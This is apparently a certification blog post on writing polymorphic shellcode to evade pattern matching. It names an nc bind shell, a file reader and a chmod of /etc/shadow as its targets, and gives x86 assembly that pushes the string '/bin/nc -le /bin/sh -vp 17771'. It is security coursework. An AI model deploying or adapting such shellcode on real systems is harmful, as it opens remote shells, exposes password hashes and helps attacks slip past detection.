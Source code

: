 # Assignment #6: Polymorphic Shellcode

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus points for making it shorter in length than original


### Solution

I chose the shellcodes:
1. Linux x86 /bin/nc -le /bin/sh -vp 17771 shellcode - Shellcode that listen on port 17771 and give a shell (/bin/sh)
2. Linux x86 file reader - Shellcode that open a file and read it
3. Linux/x86 chmod("/etc/shadow", 0666) shellcode



#### linux x86 /bin/nc -le /bin/sh -vp 17771 shellcode
I downloaded, analyzed and create my polymorphic shellcode from http://shell-storm.org/shellcode/files/shellcode-872.php

##### Shellcode Analysis
It is a very easy shellcode where it is just using the execve syscall with the parameter "/bin/nc -le /bin/sh -vp 17771". So, We can see how is pushing the strings on the stack and saving the stack pointer on the registers.

```asm
    xor eax, eax
    xor edx, edx
    push eax
    push 0x31373737     ;-vp17771
    push 0x3170762d
    mov esi, esp
```
```asm

    push eax
    push 0x68732f2f     ;-le//bin//sh
    push 0x6e69622f
    push 0x2f656c2d
    mov edi, esp
```

```asm
    push eax
    push 0x636e2f2f     ;/bin//nc
    push 0x6e69622f
    mov ebx, esp
```
